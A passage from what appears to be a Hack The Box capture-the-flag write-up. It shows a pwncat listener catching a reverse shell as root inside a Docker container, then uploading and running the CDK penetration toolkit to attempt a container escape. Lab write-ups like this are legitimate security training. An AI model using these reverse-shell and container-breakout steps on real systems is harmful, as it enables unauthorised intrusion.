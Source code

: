 Here it is. 

```bash
└─$ pwncat-cs -lp 1337         
[13:02:31] Welcome to pwncat 🐈!                                                                                                                                              __main__.py:164
[13:11:19] received connection from 10.10.11.155:40896                                                                                                                             bind.py:84
[13:11:21] 10.10.11.155:40896: registered new host w/ db                                                                                                                       manager.py:957
(local) pwncat$                                                                                                                                                                              
(remote) root@c150397ccd63:/app/bundle/programs/server# ls
app            boot-utils.js.map  config.json   mini-files.js      npm                      npm-rebuild.js      npm-require.js       package.json  profile.js.map  runtime.js.map
assets         boot.js            debug.js      mini-files.js.map  npm-rebuild-args.js      npm-rebuild.js.map  npm-require.js.map   packages      program.json    server-json.js
boot-utils.js  boot.js.map        debug.js.map  node_modules       npm-rebuild-args.js.map  npm-rebuilds.json   npm-shrinkwrap.json  profile.js    runtime.js      server-json.js.map
(remote) root@c150397ccd63:/app/bundle/programs/server# whoami
root

```
# Escaping Docker Container with CDK and read root flag. 

Another container! Now we are at `172.17.0.3`

Looking at: https://book.hacktricks.xyz/linux-hardening/privilege-escalation/docker-breakout/docker-breakout-privilege-escalation

I found this tool: https://github.com/cdk-team/CDK#installationdelivery

```bash
(local) pwncat$ upload hackthebox/tools/linux/cdk
./cdk ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━ 100.0% • 11.9/11.9 MB • 114.6 kB/s • 0:00:00
[13:36:41] uploaded 11.91MiB in 1.0 minutes and 30 seconds                                                                                                                       upload.py:76
(local) pwncat$                                                                                                                                                                              
(remote) root@c150397ccd63:/# ls
app  bin  boot  cdk  dev  etc  home  lib  lib64  media  mnt  opt  proc  root  run  sbin  srv  sys  tmp  usr  var
(remote) root@c150397ccd63:/# mv cdk /root
(remote) root@c150397ccd63:/# cd root
(remote) root@c150397ccd63:/root# ls
cdk
(remote) root@c150397ccd63:/root# chmod +x cdk
(remote) root@c150397ccd63:/root# ./cdk
CDK (Container DucK)
CDK Version(GitCommit): 548ef65dd14313a27c2bef15b7d1bff57bf6a98c
Zero-dependency cloudnative k8s/docker/serverless penetration toolkit by cdxy & neargle
Find tutorial, configuration and use-case in https://github.com/cdk-team/CDK/wiki

Usage:
  cdk evaluate [--full]
  cdk eva [--full]
  cdk run (--list | <exploit> [<args>...])
  cdk auto-escape <cmd>
  cdk <tool> [<args>...]

Evaluate:
  cdk evaluate                              Gather information to find weakness inside container.
  cdk eva                                   Alias of "cdk evaluate".
  cdk evaluate --full                       Enable file scan during information gathering.
```